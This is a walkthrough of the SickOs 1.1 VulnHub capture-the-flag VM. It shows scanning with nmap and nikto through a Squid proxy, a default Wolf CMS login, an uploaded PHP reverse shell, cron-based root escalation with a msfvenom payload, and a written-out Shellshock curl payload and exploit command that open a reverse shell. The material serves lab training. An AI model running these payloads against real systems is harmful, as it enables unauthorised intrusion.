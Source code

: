 ## SickOs 1.1 VulnHub VM walkthrough

SickOs 1.1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-11,132/

```
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.
```

## Solution

#### Sudo Netdiscover

![](Assets/1.png)

> IP address: 192.168.1.11

#### Port scan: Nmap -sC -sV -Pn -p- -A 192.168.1.11
![](Assets/2.png)

> Squid HTTP Proxy is running on port 3128 > Firefox Web proxy 192.168.1.11:3128 > Squid web server
 
#### Nikto: Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128 
![](Assets/3.png)

> /cgi-bin/status > vulnerable to `ShellShock`

#### Burp proxy 192.168.1.11 : 3128  >> 192.168.1.11/robots.txt
![](Assets/4.png)

> `Wolfcms` directory

#### Login page >> admin:admin
![](Assets/5.png)

> Logged in

#### Add IP and port to php Reverse shell
![](Assets/6.png)

> Added my own IP and port

#### Shell upload
![](Assets/7.png)

> Uploaded php reverse shell

#### Nc -nvlp 4444 & visited url of shell
![](Assets/8.png)

> Got reverse shell

#### Visit /var/www/
![](Assets/9.png)

> `Wolfcms` directory and Read n Write permissions for `connect.py`

### Method 1: Using connect.py

#### Visit `cron.d`
![](Assets/10.png)

> Automated connect.py

#### Create payload with msfvenum 
![](Assets/11.png)

#### Echo payload to connect.py
![](Assets/12.png)

#### Nc -nvlp 7777
![](Assets/13.png)

> Got root

### Method 2: Using config.php

#### `Config.php`
![](Assets/14.png)

> Got password john@123

![](Assets/15.png)

> Got root

### Method 3: Using shellshock

#### Check if cmd works

`curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"`

![](Assets/16.png)

#### Searchsploit -m 34900.py
![](Assets/17.png)

> Downloaded shellshock exploit

#### Python Reverse shell

`Python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status`

![](Assets/18.png)

> Repeat Method 2

> Get root

